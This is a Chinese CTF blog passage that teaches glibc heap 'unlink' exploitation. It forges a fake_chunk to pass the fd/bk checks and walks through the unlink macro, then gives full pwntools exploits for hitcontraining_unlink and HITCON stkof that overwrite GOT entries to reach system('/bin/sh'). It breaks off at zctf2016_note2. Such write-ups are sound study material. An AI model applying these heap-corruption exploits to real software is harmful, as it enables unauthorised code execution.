关于unlink的学习总结，**我打算分成4个部分来说明，分别是unlink的利用整体思路、如何伪造fake_chunk、探究下unlink漏洞是如何实现的、相关题目的WP**。我这篇博客并没有画图片来说明unlink的操作，我认为不是特别适合完全不懂unlink的师傅来参考学习，建议去看一些其他师傅一些画图说明unlink的博客，对unlink有个模糊的认识后，再看这篇文章应该效果最好

## 对unlink的总结：

1、unlink的整体利用思路为

①、利用溢出伪造fake_chunk

②、free掉引线堆块（也就是被溢出修改prev_size和size的chunk），从而触发unlink（注意chunk别跟top chunk合并了），同时引线堆块的大小一定要大于等于0x80，避免被free掉给放进了fastbin中。

③、最后效果为fake_chunk的地址改为&P-0x18 

④、通过edit功能修改bss段存放的chunk信息，进行泄露函数真实地址以及篡改函数的got表，从而获取shell。

2、fake_chunk未必非要和引线堆块相邻，只要让引线堆块的地址减去自身的prev_size可以找到fake_chunk即可

> 什么时候考虑unlink？ 目前以我做题的情况来看，通常不开PIE，并且存在堆溢出的时候，是可以考虑unlink的。


## 构造fake_chunk

利用unlink之前，要构造好fake_chunk（这个chunk并不是申请出来的，而是写入精心构造的数据伪造的chunk）为之后的unlink做铺垫，这个fake_chunk有三个关键部分。

第一、fake_chunk需要伪造自己的prev_size和size（这个prev_size填充成0即可），size位最小为0x20（因为要装fd和bk还要溢出下个chunk的prev_size和size）同时size需要与下一个chunk的prev_size位保持一致（PREV_INUSE位最好为1)。

第二、fake_chunk(这个fake_chunk要构造成释放状态的,这样fd和bk才有意义)的fd和bk设置成&fake_chunk-0x18和&fake_chunk-0x10。（这里指的&fake_chunk,就是bss段上存放chunk的地址）

第三、要将下一个chunk(相当于写入数据的chunk来说，我习惯将高地址的chunk称为下)的prev_size和size进行溢出修改，prev_size要修改为fake_chunk的大小（如果fake_chunk没有和下一个chunk相邻，那么需要保证下一个chunk的地址减去prev_size的值，正好可以找到fake_chunk），而size就是写成原本这个chunk的大小，但是PREV_INUSE位要改写成0（用来声明上一个堆块是free状态）。

然后free掉高地址的chunk，此时程序检测到了这个堆块的PREV_INUSE为0，就会认为上一个堆块处于free状态，然后就会触发unlink将高地址的chunk和上一个chunk合并，**它怎么去找到上一个chunk的起始位置呢？它会用当前chunk的地址减去prev_size的大小找到上一个chunk的位置，但是prev_size已经被修改成了fake_size的大小，因此当前chunk的地址减去prev_size大小误把fake_chunk当做了上一个chunk**，然后进行unlink操作。


## 探究unlink漏洞是如何产生的

下面是unlink的源码：

```c
#define unlink(AV, P, BK, FD) {                                            \
    if (__builtin_expect (chunksize(P) != prev_size (next_chunk(P)), 0))      \
      malloc_printerr ("corrupted size vs. prev_size");			      \
    FD = P->fd;								      \
    BK = P->bk;								      \
    if (__builtin_expect (FD->bk != P || BK->fd != P, 0))		      \
      malloc_printerr ("corrupted double-linked list");			      \
    else {								      \
        FD->bk = BK;							      \
        BK->fd = FD;							      \
        if (!in_smallbin_range (chunksize_nomask (P))			      \
            && __builtin_expect (P->fd_nextsize != NULL, 0)) {		      \
	    if (__builtin_expect (P->fd_nextsize->bk_nextsize != P, 0)	      \
		|| __builtin_expect (P->bk_nextsize->fd_nextsize != P, 0))    \
	      malloc_printerr ("corrupted double-linked list (not small)");   \
            if (FD->fd_nextsize == NULL) {				      \
                if (P->fd_nextsize == P)				      \
                  FD->fd_nextsize = FD->bk_nextsize = FD;		      \
                else {							      \
                    FD->fd_nextsize = P->fd_nextsize;			      \
                    FD->bk_nextsize = P->bk_nextsize;			      \
                    P->fd_nextsize->bk_nextsize = FD;			      \
                    P->bk_nextsize->fd_nextsize = FD;			      \
                  }							      \
              } else {							      \
                P->fd_nextsize->bk_nextsize = P->bk_nextsize;		      \
                P->bk_nextsize->fd_nextsize = P->fd_nextsize;		      \
              }								      \
          }								      \
      }									      \
}
```

然后下面是将源码的关键部分提取出来了

unlink宏的参数

``` c
#define unlink(AV, P, BK, FD)
```

unlink中上来直接执行的代码

```c
FD = P->fd;								      
BK = P->bk;	
```

if要检查（满足下面的条件，则可以通过if）

```c
FD->bk == P || BK->fd == P
```

通过检查后，执行的代码

```c
FD->bk = BK;							      
BK->fd = FD;
```

> 程序是怎么找到fd和bk指针的？ 答：靠偏移，而这就给了我们伪造fd和bk的机会

以 `FD->bk ==P`为例(64位程序），它就等价于*(FD+0x18)==P  (**请注意这里是存在\*()的，这里不明白的可以去学习一下C语言的指针**) (0x18是因为bk指针距离堆块的起始地址有三个内存单元大小的偏移，64位程序中内存单元的大小为0x8)

> 因为FD=P->fd，如果我们可以通过溢出来控制P->fd，就意味着我们控制了FD的值，考虑一下FD的值应该是什么，才能满足这个等式` *(FD+0x18)==P ` 
>
> 答案是 FD应该为 `&P-0x18` 才能满足上述等式，代换进去的式子就是这个   \*(&P+0x18-0x18)==P  ，因此通过了检查

以此类推，我们让BK的值写成&P-0x10，也就可以绕过检查。

先捋一下，我们现在是利用溢出的方式将P->fd (也就是FD) 和P->bk (也就是BK)分别修改为了 `&P-0x18` 和 `&P-0x10`  ,而我们刚刚通过了if的检查，因此现在 `FD->bk ==P` ` BK->fd == P`(接下来要进行等量代换，因此这些值要记住)

接下来执行的是

```c
FD->bk = BK;							      
BK->fd = FD;
```

将刚刚说过的值进行等量代换

```c
FD->bk=BK <==> P=&P-0x10
BK->fd=FD <==> P=&P-0x18
```

因为是先执行FD->bk=BK 后执行的BK->fd=FD，也就是等同于先执行的P=&P-0x10，后执行的P=&P-0x18。 **所以最后P的值等于&p-0x18**

&P是啥？它是P的地址，因此&P指向了P。




我们在bss段发现了&P （0x1cf9030是P）

补充：由于bss段上记录了申请的chunk所在的位置，换句话说，我们申请的chunk在哪，是由bss段上记录的信息说了算。bss段是怎么记录信息的？就是用指针的方式来记录的，bss段中的内存单元中存放的就是chunk的地址，也就是说bss段上某个地址指向了申请chunk的地址（这里指的是chunk的用户地址）。

最后用两句话来说一下利用unlink漏洞的条件和unlink漏洞产生的效果。

> 利用条件：利用溢出伪造一个fake_chunk，然后free掉高地址的那个堆块，触发unlink
>
> 利用后效果：最后将fake_chunk的地址（也就是P的值）修改为&P-0x18，之后再往P写入数据，就可以修改bss段上存储的chunk信息了。

## 实战unlink

### hitcontraining_unlink

#### 保护策略：




#### 题目分析：

2.23的libc，如果不想手动patch libc的话，可以试试我写的小工具 [patchtup](https://www.cnblogs.com/ZIKH26/articles/16243431.html)。它可以自动patch 指定的libc。（效果如下）



一个菜单题，同时发现了后门。



不过根据以往的情况来看，在buu上的题目flag应该不会在这个位置，但总要尝试一下的。

程序的漏洞点在change_item函数里面，发现没有对写入数据的大小做检查，导致了此处可以溢出。




同时还发现了个函数指针，下面是它被调用的地方。




而这个指针定义在这里（下图），好巧不巧，这个指针又存在一个程序自己分配的堆块上。




#### 大致思路（没用unlink的方法）：

考虑到有后门函数，同时没开PIE，这个后门函数是可以直接用的，这道题是2.23的libc，因此free掉的小堆块直接进fastbin里了。思路也比较简单，利用溢出篡改fd指针，将fd指针改成程序刚开始申请的chunk地址（这个chunk是存放的函数指针），再将这个堆块申请过来，此时我们就可以对这个堆块进行编辑了，直接篡改函数指针为后门函数的地址。最后选择5，执行一下后门函数即可

不过最后打远程的时候，flag确实不在那个位置。我在本地建了个flag文件，确实是可以读出来信息的。


#### 使用后门函数的exp

这个的exp如下：

```python
#coding:utf-8
from pwn import *
import os
context.log_level='debug'
context.terminal = ['tmux', 'splitw', '-h']
p=process('./a')
gdb.attach(p,'b *0x400A6F\nb *0x400CDD\nc')
"""下面这三行代码是我用来tmux分三屏的，不需要的话注释即可"""
os.system('tmux select-pane -L')
os.system('tmux split-window')
os.system('tmux set mouse on')
def show():
    p.sendlineafter('Your choice:','1')

def add(lenth,context):
    p.sendlineafter('Your choice:','2')
    p.sendlineafter('Please enter the length of item name:',str(lenth))
    p.sendlineafter('Please enter the name of item:',context)

def change(index,lenth,context):
    p.sendlineafter('Your choice:','3')
    p.sendlineafter('Please enter the index of item:',index)
    p.sendlineafter('Please enter the length of item name:',str(lenth))
    p.sendafter('Please enter the new name of the item:',context)

def remove(index):
    p.sendlineafter('Your choice:','4')
    p.sendlineafter('Please enter the index of item:',index)

backdoor=0x400D49
payload1=p64(0x0)*3+p64(0x21)#添加0x21的目的是为了通过fastbin中的检查
add(0x10,b'aaaa')
add(0x10,b'bbbb')
add(0x10,b'cccc')
remove('2')
remove('1')
change('0',0x20,payload1)
add(0x10,'1')
payload2=p64(0)+p64(backdoor)
add(0x10,payload2)
p.sendlineafter('Your choice:','5')
p.interactive()

```

上面这个思路非常简单，简单到我这个刚刚接触堆的菜鸡都感觉没必要写过程了，我就简单记录下我当时思考的三个“蠢”问题吧。

> 最开始的存放函数指针的堆块已经存在了，为什么要再把这个堆块申请一次？
>
> 答：因为最开始这个堆块并不在记录的堆块索引中，换句话说我们无法去编辑这个堆块（因为没有它的索引），但是我们申请的堆块是都有索引的，因此需要再把存在函数指针的堆块申请一次。

> 为啥不能直接把fd指针改成后门函数的地址，然后直接申请回来？
>
> 第一没意义，第二malloc从fastbin中申请的堆块会进行一个检查（判断我们需要堆块的大小是否等于该fastbin中的堆块大小），这个检查过不了，因为fastbin这个里面的chunk是通过修改fd指针来伪造的，取对应size的时候肯定是有问题的

> 咋把fd指针改成第一个chunk的地址？
>
> 先申请三个堆块，把第一个堆块（是我们主动申请的第一个堆块，不是程序自己申请的堆块）当作溢出堆块，然后分别释放第二个堆块和第三个堆块，从而让fastbin中出现两个空闲堆块，此时的第二个堆块的fd指针指向了第三个堆块的地址。最后发现每次程序自己申请的那个堆块末尾都是00，因此我们只需要把第二个堆块的fd指针末尾写成00即可。考虑到程序会在我们输入的末尾加个00，因此我们只需要写入0x20字节的数据（用send发送），00自动就写入进去了。

#### 大致思路（使用unlink)

在show函数中，printf %s打印的信息是bss段存放的地址所指向的数据。可是现在我们已经可以去修改bss段存放的地址了，那只需要让bss段上存一个函数的got表，那么执行show即可进行泄露函数的真实地址。




在change函数中，read写入的是bss段存放的地址所指向的信息，我们已经可以去修改bss段存放的地址，因此在bss段上存一个函数的got表，那么在执行change的时候，就可以修改函数的got表。




最终这道题的思路就是伪造一个fake_chunk，然后free掉一个堆块，触发unlink与fake_chunk合并，让fake_chunk的地址改为&p-0x18，此时往fake_chunk中写入数据，就相当于往bss段上写入数据，进行篡改bss段存放的chunk信息（写入atoi函数的got表覆盖第1个chunk的地址），然后执行show函数泄露atoi的真实地址，再执行change函数，修改atoi函数的got表为system地址，最后输入/bin/sh获取shell。

#### EXP:

直接用下面这个脚本是打不通的，我自己写了个tools模块，使用了里面自己定义的函数，如果想使用下面脚本的话可以在[这里](https://www.cnblogs.com/ZIKH26/articles/16307343.html)获取tools的源码，然后创建一个名为tools的py文件，或者删去我自定义的函数即可。

```python
from pwn import *
from tools import *
p,e,libc=load('a')
p=remote('node4.buuoj.cn',27507)
#debug(p,0x400C27,0x400CDD)
def show():
    p.recvuntil('Your choice:')
    p.sendline('1')
def add(lenth,context):
    p.recvuntil('Your choice:')
    p.sendline('2')
    p.recvuntil('Please enter the length of item name:')
    p.sendline(str(lenth))
    p.recvuntil('Please enter the name of item:')
    p.sendline(context)
def edit(index,lenth,context):
    p.recvuntil('Your choice:')
    p.send('3')
    p.recvuntil('Please enter the index of item:')
    p.sendline(str(index))
    p.recvuntil('Please enter the length of item name:')
    p.sendline(str(lenth))
    p.recvuntil('Please enter the new name of the item:')
    p.send(context)
def delete(index):
    p.recvuntil('Your choice:')
    p.sendline('4')
    p.recvuntil('Please enter the index of item:')
    p.sendline(str(index))

add(0x20,b'aaaaaaa')
add(0x80,b'bbbbbbb')#为什么要申请一个0x80大小的chunk?因为如果小于了0x80的chunk，free掉后会进入fastbin，而fastbin中是不会进行合并操作的。申请0x80再加上0x10的头部free掉后就可以到unsortedbin

ptr=0x6020c8 #这个地址为写入数据的chunk的地址
fake=p64(0)+p64(0x21)
fake+=p64(ptr-0x18)+p64(ptr-0x10)
fake+=p64(0x20)+p64(0x90)
edit(0,0x40,fake)
delete(1)

atoi_got_addr=e.got['atoi']
payload=p64(0)*2+p64(0x40)+p64(atoi_got_addr)
edit(0,0x20,payload)
show()
atoi_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log('atoi_addr',hex(atoi_addr))
#sys_addr,bin_sh_addr=local_search('atoi',atoi_addr,libc)
sys_addr,bin_sh_addr=long_search('atoi',atoi_addr)
edit(0,0x10,p64(sys_addr))
p.recvuntil('Your choice:')
p.send('/bin/sh\x00')
p.interactive()
```




### 2014 HITCON stkof

这道题跟hitcontraining_unlink题目都是一样的手法，利用unlink达到修改函数got表的目的。唯一的区别就是这道题没有%s寻址泄露，也就是无法将got表写到chunk地址（bss段记录chunk信息的位置）执行打印函数进行泄露。所以需要先劫持free函数的got表为puts函数的plt表，然后再将chunk地址改为puts的got地址，free掉改为puts的got地址那个堆块，即可进行泄露。

下面简单分析一下这道题，首先这道题是没有菜单的，根据里面的功能自己找一下就行了。




这道题有个点是以前不知道的。一般的题目都会使用setbuf关闭缓冲区，但是这道题没有使用setbuf关闭缓冲区，然后使用printf和fgets的时候发现他们也各自申请了一个堆块。为了探究原因si进去单步调试了一下，发现是调用了\_IO\_file\_doallocate函数，然后这个函数调用了malloc。\_IO\_file\_doallocate的作用是分配输入缓冲区。因此原因为printf先将数据输出到缓冲区中，由于最开始没有缓冲区，因此需要使用malloc进行申请。将数据先存放到这个刚申请的缓冲区里，等碰见fflush函数再进行输出。

#### 大致思路

整体思路，利用溢出构造fake_chunk，然后释放引线堆块(就是fake_chunk下面（高地址）的那个chunk)，此时已经可以去修改bss段上存储的chunk信息，由于不能直接寻址泄露函数的真实地址。因此需要去用puts来进行寻址泄露。先将free的got地址改为puts的plt地址，因为传给puts的参数是一个指针，然后puts就会进行寻址泄露，因此只要bss地址存放的chunk地址改成puts的got表，然后free掉这个位置的chunk(此时已经是puts的got表了，而且free被劫持成了puts),就可以泄露出来函数的真实地址了。然后同样的手法修改free的got表为system的地址就行，最后free掉装有/bin/sh的chunk即可获取shell。
tools这个函数库的源码在这 [here](https://www.cnblogs.com/ZIKH26/articles/16307343.html)

#### EXP

```python
from tools import *
p,e,libc=load('a')
#p=remote('node4.buuoj.cn',26316)
debug(p,0x400B7A,0x400A87)

def add(size):
    p.sendline('1')
    sleep(0.1)
    p.sendline(str(size))

def delete(index):
    p.sendline('3')
    sleep(0.1)
    p.sendline(str(index))

def edit(index,size,content):
    p.sendline('2')
    sleep(0.1)
    p.sendline(str(index))
    sleep(0.1)
    p.sendline(str(size))
    sleep(0.1)
    p.sendline(content)

ptr=0x602150
add(0x20)#1
add(0x20)#2 unlink
add(0x80)#3 lead chunk
add(0x20)#4
add(0x20)#5 prevent merge
puts_got_addr=e.got['puts']
payload=p64(puts_got_addr)
edit(4,0x8,payload)
fake_chunk=p64(0)+p64(0x21)
fake_chunk+=p64(ptr-0x18)+p64(ptr-0x10)
fake_chunk+=p64(0x20)+p64(0x90)
edit(2,0x30,fake_chunk)
delete(3)
edit(5,0x8,'/bin/sh\x00')
free_got_addr=e.got['free']
puts_plt_addr=e.plt['puts']
payload=p64(0)*3+p64(free_got_addr)+p64(0)+p64(puts_got_addr)
edit(2,0x30,payload)

payload=p64(puts_plt_addr)
edit(2,0x8,payload)
delete(4)
puts_addr=u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
log('puts_addr',hex(puts_addr))
sys_addr,bin_sh_addr=local_search('puts',puts_addr,libc)
#sys_addr,bin_sh_addr=long_search('puts',puts_addr)
payload=p64(sys_addr)
edit(2,0x8,payload)
delete(5)
p.interactive()
```




### zctf2016_note2

#### 保护策略




#### 程序分析

